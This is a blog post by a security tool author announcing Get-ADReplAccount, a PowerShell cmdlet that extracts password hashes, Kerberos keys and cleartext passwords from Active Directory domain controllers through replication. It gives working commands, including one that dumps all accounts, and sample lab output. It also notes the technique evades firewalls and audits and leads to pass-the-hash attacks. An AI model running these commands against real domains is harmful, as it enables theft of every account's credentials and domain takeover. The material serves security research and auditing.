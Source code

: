 ```yaml
---
ref: retrieving-active-directory-passwords-remotely
title: Retrieving Active Directory Passwords Remotely
date: 2015-08-04T10:38:08+00:00
layout: post
lang: en
permalink: /en/retrieving-active-directory-passwords-remotely/
tags:
    - 'Active Directory'
    - PowerShell
    - Security
---
```


I have finally finished work on the&nbsp;**Get-ADReplAccount** cmdlet, the&nbsp;newest addition to&nbsp;my [DSInternals PowerShell Module](/en/projects/), that&nbsp;can retrieve [reversibly encrypted plaintext passwords](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/hh994559(v=ws.11)), password hashes and&nbsp;Kerberos keys of&nbsp;all user accounts from&nbsp;remote domain controllers. This&nbsp;is&nbsp;achieved by&nbsp;simulating the&nbsp;behavior of&nbsp;the&nbsp;**dcromo** tool and&nbsp;creating a&nbsp;replica of&nbsp;Active Directory database through the&nbsp;[MS-DRSR](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47) protocol. Furthermore, it&nbsp;has these properties:

- It&nbsp;does not even&nbsp;need the&nbsp;Domain Admins group membership. The&nbsp;**Replicating Directory Changes All** permission is&nbsp;more than&nbsp;enough for&nbsp;this&nbsp;cmdlet to&nbsp;do&nbsp;its job.
- It&nbsp;opens door to&nbsp;other attacks, e.g. pass-the-hash, pass-the-ticket or&nbsp;PAC spoofing, that&nbsp;can be&nbsp;used to&nbsp;seize control of&nbsp;the&nbsp;entire Active Directory forest. Long live [mimikatz](https://github.com/gentilkiwi/mimikatz)!
- It&nbsp;cannot be&nbsp;effectively blocked by&nbsp;firewalls, because&nbsp;the&nbsp;directory replication service (DRSGetNCChanges call to&nbsp;be&nbsp;more precise) shares the&nbsp;same port with&nbsp;other critical services, like user name resolution (exposed by&nbsp;the&nbsp;DsCrackNames call).
- It&nbsp;only uses documented features of&nbsp;Active Directory and&nbsp;is&nbsp;not a&nbsp;hack per se.
- It&nbsp;leaves only minimal footprint on Domain Conrollers and&nbsp;can be&nbsp;easily overlooked by&nbsp;security audits.

Usage example:

```powershell
Import-Module DSInternals
$cred = Get-Credential
Get-ADReplAccount -SamAccountName April -Domain Adatum -Server LON-DC1 `
-Credential $cred -Protocol TCP
```

<!--more-->

Sample output:

```
DistinguishedName: CN=April Reagan,OU=IT,DC=Adatum,DC=com
Sid: S-1-5-21-3180365339-800773672-3767752645-1375
Guid: 124ae098-699b-4450-a47a-314a29cc90ea
SamAccountName: April
SamAccountType: User
UserPrincipalName: April@adatum.com
PrimaryGroupId: 513
SidHistory: 
Enabled: True
Deleted: False
LastLogon: 
DisplayName: April Reagan
GivenName: April
Surname: Reagan
Description: 
NTHash: 92937945b518814341de3f726500d4ff
LMHash: 727e3576618fa1754a3b108f3fa6cb6d
NTHashHistory: 
  Hash 01: 92937945b518814341de3f726500d4ff
  Hash 02: 1d3da193d2f45911a6f0fa940b9fb32f
  Hash 03: 402bc59d8a00641b7f386e78596340f4
LMHashHistory: 
  Hash 01: 727e3576618fa1754a3b108f3fa6cb6d
  Hash 02: 5a5503d0e85f58abaad3b435b51404ee
  Hash 03: f9393d97e7a1873caad3b435b51404ee
SupplementalCredentials:
  ClearText: Pa$$w0rd
  Kerberos:
    Credentials:
      DES_CBC_MD5
        Key: 76fe3b5bda911a40
    OldCredentials:
      DES_CBC_MD5
        Key: 7f8c4f38e0ea0b80
    Salt: ADATUM.COMApril
    Flags: 0
  KerberosNew:
    Credentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 3a3b6a89bb82d112db5ef68f6db5d1afc2b806df61dcd85e3eacf3b85ee382d8
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: a72c8bc96c4a6f03244f0b0067a1e440
        Iterations: 4096
      DES_CBC_MD5
        Key: 76fe3b5bda911a40
        Iterations: 4096
    OldCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 14e46244a59a37cd8aa7c1fe61896441c7d065fafe4874191e69c1fe28856810
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: 034b512ec64286dec951d6aff8d81fa8
        Iterations: 4096
      DES_CBC_MD5
        Key: 7f8c4f38e0ea0b80
        Iterations: 4096
    OlderCredentials:
      AES256_CTS_HMAC_SHA1_96
        Key: 2387ca8f936c8c154996809af8fee7c47fe4b9b5dd84d051fc43a9289bbaa3ab
        Iterations: 4096
      AES128_CTS_HMAC_SHA1_96
        Key: 29d536ec057f9063747161429b81f056
        Iterations: 4096
      DES_CBC_MD5
        Key: 58f1cbe6e50e1f83
        Iterations: 4096
    ServiceCredentials:
    Salt: ADATUM.COMApril
    DefaultIterationCount: 4096
    Flags: 0
  WDigest:
    Hash 01: c3d012ab1101eb8f51b483fb4c5f8a7e
    Hash 02: c993da396914645b356ae7816251fcb1
    Hash 03: 6b58530cab34de91189a603e22c2be15
    Hash 04: c3d012ab1101eb8f51b483fb4c5f8a7e
    Hash 05: 5a762cf59fa31023dcba1ebd4725b443
    Hash 06: c78bac91c0ba25cae5d44460fd65a73b
    Hash 07: 59d73cea16afd1aac6bf8acfa2768621
    Hash 08: d2be383db9469a39736d9e2136054131
    Hash 09: 079de9f4d94d97a80f1726497dfd1cc2
    Hash 10: 85dbe1549d5fbfcc91f7fe5ac5910f52
    Hash 11: 961a36bded5535b8fc15b4b8e6c48b93
    Hash 12: 6ac8a60d83e9ae67c2097db716a6af17
    Hash 13: e899e577d5f81ef5288ab67de07fad9a
    Hash 14: 135452ab86d40c3d47ca849646d5e176
    Hash 15: a84c367eaa334d0a4cb98e36da011e0f
    Hash 16: 61a458eb70440b1a92639452f0c2c948
    Hash 17: 238f4059776c3575be534afb46be4ccf
    Hash 18: 03ddf370064c544e9c6dbb6ccbf8f4ac
    Hash 19: 354dd6c77ccf35f63e48cd5af6473ccf
    Hash 20: 5f9800d734ebe9fb588def6aaafc40b7
    Hash 21: 59aab99ebcddcbf13b96d75bb7a731e3
    Hash 22: f1685383b0c131035ae264ee5bd24a8d
    Hash 23: 3119e42886b01cad00347e72d0cee594
    Hash 24: ebef7f2c730e17ded8cba1ed20122602
    Hash 25: 7d99673c9895e0b9c484e430578ee78e
    Hash 26: e1e20982753c6a1140c1a8241b23b9ea
    Hash 27: e5ec1c63e0e549e49cda218bc3752051
    Hash 28: 26f2d85f7513d73dd93ab3afd2d90cf6
    Hash 29: 84010d657e6b58ce233fae2bd7644222
```

You could even dump all accounts at once, but&nbsp;this&nbsp;can cause heavy (=suspicious) replication traffic:

```powershell
Get-ADReplAccount -All -NamingContext 'DC=Adatum,DC=com' -Server LON-DC1
```
